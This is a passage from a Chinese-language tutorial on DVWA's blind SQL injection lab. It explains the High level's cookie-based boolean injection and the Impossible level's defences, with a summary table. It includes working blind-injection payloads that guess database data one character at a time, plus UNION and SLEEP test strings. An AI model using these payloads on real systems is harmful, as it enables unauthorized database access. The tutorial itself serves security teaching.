攻击者可以通过构造条件判断的 SQL 语句，观察页面返回的是 `exists`（200 OK）还是 `MISSING`（404 Not Found），来逐位猜解数据。由于输入源是 Cookie，需要设置 Cookie 后访问页面，或者通过 JavaScript 修改 Cookie 并发起请求。

**典型 Payload 示例**（需通过设置 Cookie 发送，例如使用浏览器开发者工具修改 Cookie 或使用 Burp Suite 重放）：

1. 判断是否存在注入点：
   ```
   Cookie: id=1' AND '1'='1' --
   Cookie: id=1' AND '1'='2' --
   ```
   如果前者返回 `exists`，后者返回 `MISSING`，则存在布尔盲注。

2. 猜解数据库当前用户第一个字符的 ASCII 值：
   ```
   Cookie: id=1' AND ASCII(SUBSTR(USER(),1,1)) > 100 -- 
   ```
   若返回 `exists`，说明 ASCII>100，否则 ≤100。

**关于随机延迟的说明**：
随机延迟只在查询无结果时概率性出现，且不影响页面内容（始终是 404 和缺失信息）。因此布尔盲注完全不受影响，攻击者只需关注响应状态码和内容即可。如果尝试使用时间盲注，可能会因假条件也偶尔延迟而产生误判，故不推荐在此场景使用时间盲注。

**漏洞根源**：
- 开发者未对 Cookie 输入进行任何安全处理，**直接拼接 SQL 语句，且错误信息被隐藏，仅通过存在/不存在反馈**，属于典型的布尔盲注漏洞。
- 随机休眠虽增加了时间盲注的难度，但未从根本上防御布尔盲注。

**Payload 结果示意图**：

*存在时返回 200 和 “exists” 信息*


*缺失时返回 404 和 “MISSING” 信息*

### SQL Injection Blind Impossible 级别

**源码**：
```php
<?php
if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); //① CSRF 防护
    $exists = false;

    // Get input
    $id = $_GET[ 'id' ];                                     //② 获取输入

    // Was a number entered?
    if(is_numeric( $id )) {                                 //③ 检查是否为数字
        $id = intval ($id);                                   //④ 强制转换为整数
        switch ($_DVWA['SQLI_DB']) {
            case MYSQL:
                // 参数化查询
                $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' ); //⑤ MySQL 预处理
                $data->bindParam( ':id', $id, PDO::PARAM_INT ); //⑥ 绑定参数，指定整数类型
                $data->execute();                              //⑦ 执行

                $exists = $data->rowCount();                   //⑧ 获取行数
                break;
            case SQLITE:
                global $sqlite_db_connection;

                $stmt = $sqlite_db_connection->prepare('SELECT COUNT(first_name) AS numrows FROM users WHERE user_id = :id LIMIT 1;' ); //⑨ SQLite 预处理
                $stmt->bindValue(':id',$id,SQLITE3_INTEGER);    //⑩ 绑定参数，整数类型
                $result = $stmt->execute();                     //⑪ 执行
                $result->finalize();
                if ($result !== false) {
                    // 检查列数（预防）
                    $num_columns = $result->numColumns();
                    if ($num_columns == 1) {                   //⑫ 确保只有一列返回
                        $row = $result->fetchArray();
                        $numrows = $row[ 'numrows' ];
                        $exists = ($numrows == 1);              //⑬ 判断是否存在
                    }
                }
                break;
        }
    }

    // Get results
    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';    //⑭ 存在时输出
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' ); //⑮ 不存在时 404
        echo '<pre>User ID is MISSING from the database.</pre>';    //⑯ 缺失信息
    }
}

// Generate Anti-CSRF token
generateSessionToken();
?>
```

**原理说明**：
- **① CSRF 防护**：首先检查 Anti-CSRF token，确保请求来自合法页面，防止跨站请求伪造。
- **② 获取输入**：从 `$_GET['id']` 获取用户输入。
- **③④ 输入验证与类型转换**：`is_numeric($id)` 确保输入是数字，然后 `intval($id)` 强制转换为整数，彻底杜绝非数字字符进入后续流程。任何包含字母、符号的输入都会导致条件不满足，直接跳过查询。
- **⑤⑥⑦ MySQL 参数化查询**：使用 PDO 预处理语句，将 `id` 作为参数绑定，并指定为整数类型（`PDO::PARAM_INT`）。这样，即使用户输入被验证为数字，后续也以参数形式传递，数据库不会将 `:id` 解释为 SQL 代码，从根本上防止了注入。
- **⑧ 获取结果**：通过 `rowCount()` 获取受影响的行数，判断是否存在用户。
- **⑨⑩⑪ SQLite 参数化查询**：同样使用预处理，绑定整数类型，执行查询。
- **⑫ 额外检查**：SQLite 分支还检查返回的列数是否为 1（因为查询的是 `COUNT(first_name)`），增加了一层防护。
- **⑬ 存在性判断**：根据 `numrows` 是否为 1 设置 `$exists`。
- **⑭⑮⑯ 输出反馈**：无论查询结果如何，页面只返回固定的存在或不存在信息，且不存在时返回 404 状态码。这些反馈不包含任何数据库内容，且错误信息被完全隐藏。

**为什么无法注入**：
- **输入验证**：只有纯数字才能通过 `is_numeric`，任何注入 payload（如 `1' OR '1'='1`、`1 UNION SELECT ...`）都会因此被拦截，不会进入数据库查询。
- **类型转换**：即使输入类似 `1 UNION SELECT ...`，`intval` 会将其转换为整数 `1`，注入代码被彻底删除。
- **参数化查询**：即使攻击者能绕过数字验证（实际上不可能），预处理语句也将输入作为数据处理，而非 SQL 代码。例如，绑定参数时指定为整数，数据库不会解析其中的特殊字符或关键字。
- **错误隐藏**：所有数据库错误均被捕获或忽略，不输出任何有用信息，攻击者无法获得反馈。
- **CSRF 防护**：防止攻击者利用受害者身份执行请求。

因此，Impossible 级别通过多层防御（CSRF 令牌、严格输入验证、类型转换、参数化查询、输出隐藏）彻底杜绝了 SQL 注入漏洞，无论何种注入手法均无法实施。

**典型测试 Payload**（均无效）：
- `1' AND '1'='1` → `is_numeric` 失败，直接跳过查询，返回 404。
- `1 UNION SELECT user, password FROM users` → `is_numeric` 失败。
- `1 AND SLEEP(5)` → `is_numeric` 失败。
- 任何包含字母、引号、注释符的输入均会被 `is_numeric` 拦截。


**示意图**：
用户存在的结果：

用户不存在的结果：


*注：虽然读者可能会疑惑，为什么impossible级别还是可以看到用户是否存在的信息？这是因为impossible级别已经通过数字过滤+prepared statament+输出限制等策略彻底杜绝了SQL注入，返回结果是可控的，可以选择输出和不输出，但本质上已经杜绝了SQL的注入可能，所以最后输出不算信息泄露，因为攻击者无法通过构造payload对数据库注入非法获取数据库中其他的信息*

### DVWA中SQL Injection Blind的总结

SQL盲注的核心在于利用应用程序对用户输入处理不当导致的SQL注入漏洞，通过观察页面响应差异（布尔状态、时间延迟或外部请求）来逐位推断数据。DVWA的四个安全等级展示了从**完全无防御**到**纵深防御**的演进过程，也揭示了**仅依赖黑名单或简单转义的局限性**以及**参数化查询与输入验证的必要性**。

---

#### 1. Low 级别：完全无防御
- **后端处理**：直接将用户输入拼接至SQL语句，无任何过滤或转义。
- **输出反馈**：根据查询结果返回“exists”或“MISSING”，并伴随HTTP状态码（200/404）。
- **漏洞利用**：攻击者可构造条件判断（如`1' AND '1'='1`与`1' AND '1'='2`）通过页面差异进行布尔盲注，逐字符获取数据。
- **教训**：直接拼接用户输入是最根本的漏洞，任何不经过滤的数据都应视为不可信。

---

#### 2. Medium 级别：不彻底的转义
- **后端处理**：
  - MySQL分支：使用`mysqli_real_escape_string`转义，但拼接时`$id`未被引号包围（数字型注入），转义无效。
  - SQLite分支：无任何过滤，直接拼接。
- **输出反馈**：同Low级别，仍返回二元状态。
- **漏洞利用**：攻击者依然可通过数字型注入执行布尔盲注，例如`1 AND 1=1`与`1 AND 1=2`。SQLite分支更是完全开放。
- **教训**：转义函数仅适用于字符串上下文，无法防御数字型注入；不同数据库分支需统一安全处理。

---

#### 3. High 级别：增加干扰但未根治
- **后端处理**：
  - 输入源改为Cookie，但仍直接拼接（有引号包裹）。
  - 添加`LIMIT 1`限制行数，并在无结果时引入随机延迟（干扰时间盲注）。
- **输出反馈**：存在时返回200和“exists”，不存在时返回404和“MISSING”，延迟不影响布尔判断。
- **漏洞利用**：布尔盲注依然有效（如`Cookie: id=1' AND '1'='1`）。攻击者需设置Cookie，但可通过JavaScript或抓包工具实现。
- **教训**：随机延迟无法阻止布尔盲注；Cookie来源并非安全屏障，只要存在拼接，注入就不可避免。

---

#### 4. Impossible 级别：纵深防御
- **后端处理**：
  - **CSRF令牌**：防止跨站请求伪造。
  - **严格输入验证**：`is_numeric` + `intval`确保输入为整数，非数字直接跳过查询。
  - **参数化查询**：MySQL使用PDO绑定整数参数，SQLite使用预处理语句，彻底杜绝SQL代码注入。
  - **输出控制**：保留存在/不存在反馈，但攻击者无法通过注入获取额外数据。
- **为何无法绕过**：
  - 任何包含字母、引号或特殊字符的输入均因`is_numeric`失败而无法进入查询。
  - 即使输入为数字，参数化查询将其作为数据处理，不会改变SQL结构。
  - 错误信息被隐藏，无任何数据库反馈。
- **输出信息的争议**：虽然页面仍显示用户是否存在，但这属于业务逻辑信息，无法被用于注入攻击，因为攻击者无法操控查询内容。
- **核心防御**：**输入验证 + 参数化查询 + CSRF防护**，将用户数据与SQL代码彻底分离。

---

## 三、总结与推荐防御措施

| 等级       | 核心防御机制                                                                 | 绕过方法                                                                                     | 关键启示                                                                                 |
| ---------- | ---------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| **Low**    | 无任何过滤，直接将用户输入拼接到SQL语句中；页面根据查询结果返回二元反馈（存在/不存在）及HTTP状态码。 | 构造条件判断payload（如 `1' AND '1'='1` 与 `1' AND '1'='2`），通过页面差异进行布尔盲注，逐位猜解数据。 | 直接拼接用户输入是最根本的漏洞，任何不经过过滤的数据都应视为不可信；二元反馈为布尔盲注提供了理想条件。 |
| **Medium** | MySQL分支使用`mysqli_real_escape_string`转义，但拼接时`$id`未被引号包围（数字型注入），转义无效；SQLite分支无任何过滤，直接拼接。 | 利用数字型注入（如 `1 AND 1=1`）绕过转义；SQLite分支完全开放，可直接注入。                     | 转义函数仅适用于字符串上下文，无法防御数字型注入；不同数据库分支需统一安全处理，否则低版本分支会成为突破口。 |
| **High**   | 输入源改为Cookie，仍直接拼接（有引号包裹）；添加`LIMIT 1`限制行数；无结果时引入随机延迟干扰时间盲注；错误信息被隐藏。 | 布尔盲注依然有效（如 `Cookie: id=1' AND '1'='1`）；通过注释符（`--` 或 `#`）可绕过`LIMIT 1`；随机延迟不影响布尔判断。 | 随机延迟无法阻止布尔盲注；Cookie来源并非安全屏障；隐藏错误信息只能增加攻击成本，无法根除漏洞。 |
| **Impossible** | CSRF令牌防止跨站请求；严格输入验证（`is_numeric` + `intval`）确保输入为整数；参数化查询（PDO预处理）彻底隔离数据与代码；输出隐藏且限制行数。 | 无法绕过。任何注入payload均因类型检查失败而被拦截；参数化查询将用户数据作为纯参数处理，无法改变SQL结构；CSRF令牌阻止伪造请求。 | 参数化查询是防御SQL注入的黄金标准，结合严格输入验证和CSRF防护，构建纵深防御体系，从根本上杜绝漏洞；二元反馈可保留，但无法被利用。 |

1. **根本原因**：所有级别的漏洞根源都在于**直接将用户输入拼接到SQL语句中**，即使有过滤或转义，只要拼接逻辑存在，注入风险就存在。
2. **正确防御思路**：
   - **参数化查询（预处理语句）**：强制将用户输入作为参数传递，而非拼接到SQL代码中，是防御SQL注入的最佳实践。
   - **严格输入验证**：根据字段类型进行强类型校验（如`is_numeric` + `intval`），限制输入格式。
   - **最小权限原则**：数据库连接使用低权限账户，限制操作范围。
   - **输出控制**：隐藏详细错误信息，但业务反馈（如用户是否存在）可保留，前提是攻击者无法利用该反馈进行注入。
   - **CSRF防护**：防止攻击者利用受害者身份发送恶意请求。
3. **深度防御**：结合多种机制（如WAF、CSP等）构建多层防护，即使某一层被绕过，其他层仍能起到阻断作用。

通过DVWA的SQL Injection Blind各级别，可以深刻认识到：**仅依赖过滤或转义无法彻底防御SQL注入，必须采用参数化查询与输入验证相结合的方式，才能将数据与代码严格分离，保障数据库安全**。
